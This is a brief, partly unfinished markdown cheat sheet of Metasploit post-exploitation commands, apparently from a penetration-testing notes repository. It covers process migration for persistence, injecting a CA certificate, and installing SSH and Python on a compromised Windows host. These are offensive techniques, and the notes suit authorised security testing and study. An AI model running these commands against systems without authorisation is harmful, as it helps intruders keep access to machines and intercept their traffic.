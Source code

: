 # Metasploit

## 01 - Migrate Process

TODO: Fill this info

- Migrate to a 64-bit process ID architecture to main presence

```
meterpreter > migrate <PID>

meterpreter > migrate -N explorer.exe

meterpreter > background
```

`msf > use post/windows/manage/migrate`

`msf > use post/windows/manage/priv_migrate`

`msf > use post/windows/manage/archmigrate`

## 02 - Inject Certificate

`msf > use post/windows/manage/inject_ca`

## 03 - Install Softwares

```
msf > use post/windows/manage/install_ssh

msf > use post/windows/manage/install_python
```